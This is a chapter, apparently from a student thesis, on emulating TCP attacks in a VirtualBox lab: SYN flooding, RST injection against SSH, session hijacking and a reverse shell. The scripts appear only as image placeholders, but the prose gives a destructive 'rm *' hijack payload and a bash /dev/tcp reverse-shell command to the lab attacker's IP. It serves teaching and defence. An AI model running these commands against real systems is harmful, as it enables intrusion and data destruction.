\chapter{Emulation of Network Attacks using Virtual Machines}

Through the following network tests, the laboratory in which those tests where performed, consisted of three VirtualBox machines. Those machines have Ubuntu as their operating system and are connected on a Network Address Translation (NAT) network.\footnote{Network Address Translation is the process where a network device, usually a firewall, assigns a public address to a computer (or group of computers) inside a private network. A virtual machine with NAT enabled acts much like a real computer that connects to the Internet through a router. The router, in this case, is the Oracle VM VirtualBox networking engine, which maps traffic from and to the virtual machine transparently.}

IP addresses:
\begin{itemize}
    \item Attacker: 10.0.2.6
    \item Victim: 10.0.2.4
    \item Observer/Secondary Victim 10.0.2.5
\end{itemize}  


\section{TCP Connection Attack Scenarios}

\subsubsection{TCP Protocol}
The Transmission Control Protocol (TCP) is one of the main protocols in the internet protocol suite, part of the Transport layer. Some of its key characteristics is that TCP provides reliable, ordered, and error-checked delivery of a stream of octets (bytes) between applications since it is a connection-oriented protocol. Due to network congestion, traffic load balancing, unpredictable network behavior, IP packet may be lost, duplicated or delivered out of order. TCP detects these problems, requests re-transmission of lost data, rearranges out-of-order data and even helps minimize network congestion to reduce the occurrence of the other problems \cite{kurose2016}\cite{hunt2002}.

Before one application process can start sending data to another, the two processes must first agree on the term of their communication and establish the parameters of the ensuing data transfer. This process is called "handshake" \cite{kurose2016}.

The TCP protocol uses a type of handshake called a three-way handshake because three segments are exchanged. As shown in figure \ref{Handshake}, host A begins the procedure by sending a segment with the "Synchronize sequence numbers" (SYN) bit set to host B. By receiving this segment, host B is informed that host A is attempting to establish a connection, and is also informed what sequence number host A will use as a starting number for its segments during the transmission\footnote{Sequence number are used to keep data in the proper order.} \cite{hunt2002}\cite{kurose2016}.

Host B then responds to host A with a segment that contains the "Acknowledgment" (ACK) and SYN bits set. By that, host B acknowledges the receipt of host A's segment, and inform A which sequence number host B will be using to start with \cite{hunt2002}.

\begin{figure}[ht!]
\centering

\includegraphics[width=1.1\textwidth]{Resources/General/tcpHandshake.jpg}
\caption{Three-way handshake \label{Handshake}}
\end{figure}

Finally, host A sends the last acknowledgment to host B and begins sending actual data, signaling the beginning of their communication.

After that, the protocol uses sequence and acknowledgment numbers to provide a stable point-to-point two-way connection \cite{hunt2002}.

\subsection{SYN Flooding Attack}

SYN flood attacks are some of the oldest yet most effective DoS\footnote{Denial-of-Service} attacks. They are a unique type of attack since they are both protocol attack and a bandwidth attack. Many SYN floods combine multiple tactics \cite{whitaker2006}.

During, the SYN flood attack, the attacker targets and exploits the three-way handshake described above, over the establishment of a TCP connection \cite{hunt2002}.
The attacker sends a segment with a SYN flag set from a spoofed address but does not respond with an acknowledgment segment after receiving a SYN-ACK response from the target \cite{whitaker2006}.
A host has a limited number of half-opened (embryonic) sessions that it can maintain at any given time \cite{whitaker2006}. After those are used up, other users cannot attempt any communication with the specific host, as long as the attack is active. SYN packets are still successful today for the following three reasons:
\begin{itemize}
\item SYN packets do not require a lot of bandwidth to launch an attack and they can be sent so rapidly that even if embryonic sessions are cleared out, other SYN packets can be sent to fill up the queue again \cite{whitaker2006}.
\item Those type of packets are part of the normal communication and everyday traffic, so they cannot be filtered easily \cite{hunt2002}.
\item The attacker can choose random IP addresses to launch the attack since no response (ACK) needs to be given back to the target.
\end{itemize}

In the following laboratory test, a SYN attack is performed. The Python code, shown in Figure \ref{SYNcode}, will be used to attack the queue containing the SYN flag information in victim machine. In the script presented below, multiple packets, with the SYN flag enabled, are created and sent to the target, from random IP addresses using the \textit{random} library and from different source ports. The random IP addresses are created using the "\textit{randomIP()}" procedure which creates and returns a string with the format of an IP address but with randomly chosen numbers, all in-between the 0 to 255 range. Then, the "\textit{SYN\_Flood()}" function is created to craft and send packets with the necessary header from different IP addresses and source port numbers. 

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Code/SYN.PNG}
\caption{SYN Flooding Attack - Python Script. \label{SYNcode}}
\end{figure}

To begin the laboratory attack, we get the target's current size of the queue for half-opened connections and we proceed by turning off the SYN cookie countermeasure using the command: \newline \textbf{\textit{sudo sysctl -w net.ipv4.tcp\_syncookies=0}}

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn1.PNG}
\caption{SYN Flooding Attack - SYN Cookie Countermeasure Disabled.\label{SYN1}}
\end{figure}
Then, we check the usage of the queue before the attack, using the command shown.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn2.PNG}
\caption{SYN Flooding Attack - Queue before attack. \label{SYN2}}
\end{figure}

After executing the Python code, the victim now has many half-open connections from random source IP addresses. 

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn3.PNG}
\caption{SYN Flooding Attack - Queue during attack. \label{SYN3}}
\end{figure}

Once the quantity of this type of connections reaches a certain threshold, the victim will not be able to accept any new TCP connections as shown below. When the observer tries to connect to the victim through Telnet\footnote{Telnet is an application protocol used on the Internet or local area network to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection.}, the connection cannot be established.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn4.PNG}
\caption{SYN Flooding Attack - Telnet Connection to Victim Fails. \label{SYN4}}
\end{figure}

Now, the same attack will be performed but with the SYN cookie countermeasure enabled, as shown below.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn5.PNG}
\caption{SYN Flooding Attack - SYN Cookie Countermeasure Enabled \label{SYN5}}
\end{figure}

After the attacker follows the same steps and performs the same attack, the victim has not been affected and can properly accept the Telnet connection from the observer.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn6.PNG}
\caption{SYN Flooding Attack - Successful Telnet Connection. \label{SYN6}}
\end{figure}


\subsection{RST on SSH Connections}

\subsubsection{The SSH Protocol}

Secure Shell (SSH) is a protocol that offers secure remote login and connection from one computer to another. It provides a variety of options for authentication and protects the communication's security and integrity through encryption \cite{hunt2002}.

The protocol works in the client-server model, which means that the connection is established by the SSH client connecting to the SSH server. The SSH client drives the connection setup process and uses public key cryptography to verify the identity of the SSH server. After the setup phase the SSH protocol uses strong symmetric encryption and hashing algorithms to ensure the privacy and integrity of the data that is exchanged between the client and server \cite{barrett2001}\cite{tatu1996}.

The major features and guarantees of the SSH protocol are \cite{barrett2001}:
\begin{itemize}
\item \textbf{Privacy.} The protocol provides privacy by encrypting data that passes over the network.
\item \textbf{Integrity.} The underlying transport of SSH, TCP/IP, offers integrity by detecting any alteration in the communication.
\item \textbf{Authentication.} SSH connections consist two authentications: the client verifies the identity of the server (server authentication) and the server verifies the identity of the user requesting access (user authentication).
\item \textbf{Authorization.} Access to interactive login sessions, TCP port forwarding, Key agent forwarding etc.
\item \textbf{Forwarding (Tunneling\footnote{Encapsulating another TCP-based service}).} SSH provides TCP port forwarding, X forwarding for securing the X protocol (i.e., X windows), and agent forwarding by permitting SSH clients to access SSH public keys stored on remote computers.
\end{itemize}

Some of the protocol's main uses are :
\begin{enumerate}
\item Secure Remote Logins
\item Secure File Transfer
\item Secure Remote Command Execution
\item Keys and Agents
\item Access Control
\item Port Forwarding
\end{enumerate}

\subsubsection{TCP Reset (RST) Attack}

During a TCP connection, each packets contains a TCP header. In each of those headers, there is a bit known as the "reset" (RST) flag. When set to 1, it indicates to the receiver that the TCP connection from which that packet was sent, must be terminated immediately, unbind the used port and discard any other packets that come  from the same source. In the following lab, the attacker monitors the TCP packets on the connection and then sends a "forged" packet containing a TCP reset to one or both endpoints which will result in denying the existing SSH communication of the two hosts \cite{erickson2008}\cite{hunt2002}.

The below screenshot shows the last packet sent from the server to the client and the next sequence number which the client is expecting.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/RST1.png}
\caption{TCP Reset Attack - Capturing Sequence Number\label{RST1}}
\end{figure}

Figure \ref{RSTcode} shows the Python script used to send a reset packet to the target. In this script, we are creating a packet with an IP header and a TCP segment with the RST flag set to one, and sending it to the client machine over the network. The IP address that is entered in the IP header is one of the two victim's IP, so that the target will think that the packet came from the host that it is communicating with.

\begin{figure}[H]
\centering

\includegraphics[width=1.22\textwidth]{Resources/Attacks/Code/RST.png}
\caption{TCP Reset Attack - Python Script.\label{RSTcode}}
\end{figure}

In the following screenshot, the RESET packet is captured via Wireshark\footnote{Visit https://www.wireshark.org for further information.} and the communication between the two machines is terminated. It is also noticeable that, after the RST packet is sent, the victim with 10.0.2.4 as its IP address, is sending ARP packets, asking who has the IP 10.0.2.5, which it previously had a connection with. 

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/RST3.png}
\caption{TCP Reset Attack - RST Packet.\label{RST2}}
\end{figure}


\subsection{Session Hijacking}

Session Hijacking is a technique to overtake an already active connection between the victim and a host machine, using spoofed packets. A key attribute that makes this attack effective is that the victim is already authenticated before carrying out the attack. On the other hand, the attacker must be on the same network as the victim \cite{erickson2008}. By sniffing the network segment, all the necessary information of open TCP connections can be taken out from the headers. The attacker manages to access the sequence number (SYN) for a connection and sends a spoofed packet from the victim's IP address to the host machine \cite{whitaker2006}.

The host machine will receive the packet with the correct acknowledgment number (ACK) and will continue the communication with no reason to believe the spoofed packet didn't come from the victim machine \cite{erickson2008}.

In this packet, the attacker can include malicious content, making the attack even more effective and damaging. Session Hijacking is considered to be a man-in-the-middle (MITM) attack \cite{whitaker2006}.

Following, a similar attack is performed, using a temporary text file to show that the attack was successful. In the screenshot below, the new text file is created in the server machine.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking1.png}
\caption{Session Hijacking - File Creation.\label{SH1}}
\end{figure}

In the next screenshot we establish a Telnet connection with the Guest Server. We can see our file "\_file.txt" in the TCP folder.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking2.png}
\caption{Session Hijacking - Telnet Connection Establishment.\label{SH2}}
\end{figure}

The last data packet sent to the server is captured and its "Next Sequence Number" and "Acknowledgement Number" are used to forge our hijacking packet, as shown in Figure \ref{SH3}

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking3.png}
\caption{Session Hijacking - Captured Packet.\label{SH3}}
\end{figure}

The Python script used to hijack the established connection is shown in Figure \ref{SessionHijackingCode}. In the code below, we provide the command \textbf{\textit{"rm *"}} as payload data, which removes everything on the current folder. The packet is then assembled with the required headers, sent to the victim and the command that came as data in the packet, gets executed.

\begin{figure}[H]
\centering

\includegraphics[width=1.22\textwidth]{Resources/Attacks/Code/SessionHijacking.png}
\caption{Session Hijacking - Python Script.\label{SessionHijackingCode}}
\end{figure}

Finally, the result of this attack can be seen below. After executing the script, the packet is sent to the server, the file gets deleted and that sums up the success of the attack.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking4.png}
\caption{Session Hijacking - File Deleted.\label{SH4}}
\end{figure}

 Of course, many different commands could replace the one we chose to use as payload, having a more severe impact on the victim's integrity, It is up to the attacker's intentions that lead him/her to decide how he/her will take advantage of the situation. A more powerful example would be using the command \textbf{\textit{"rm -rf"}}. While using the same command, changing the flags can have a significantly bigger impact. In this case, using the flags \textit{r} and \textit{f}, the result of executing this command would be to recursively remove the directories and their contents without prompting before removing any write-protected file.

\subsection{Reverse Shell}

Reverse Shell is a tunnel created with a remote shell program. After the tunnel is created, the attacker can launch commands back from the tunnel destination machine to the tunnel originating machine with the credentials of the tunnel creator \cite{whitaker2006}.

The aim of this attack is to run a reverse shell from the target machine to the to give the attacker the shell to the target machine after hijacking a TCP session. The result has the attacker skipping firewall since the connection was through the well-known TCP port 80\footnote{Egress Filtering is when a firewall acts as gatekeeper for networks or network segments and manages ingress and egress of data. Although Egress filtering doesn't include filtering input and output from port 80, since this is a well-known port for TCP connections and users utilise it very often \cite{weidman2014}.}, and having access to the remote machine \cite{weidman2014}\cite{whitaker2006}.

To begin the attack, the Next Sequence Number of the last packet sent between the victim and the other host, is captured using Wireshark.
Afterwards, the Python script is properly modified, which allows the attacker to hijack the TCP session and execute the shell command: \newline \textbf{\textit{/bin/bash -i \textgreater /dev/tcp/10.0.2.6/9090 2\textgreater\&1 0\textless\&1}} \newline in order to open a remote shell with the specified IP address and port. This is done by creating a packet with the necessary IP and TCP headers and the shell command as data of the packet. Then, the packet is sent, which kicks off the attack.

\begin{figure}[H]
\centering
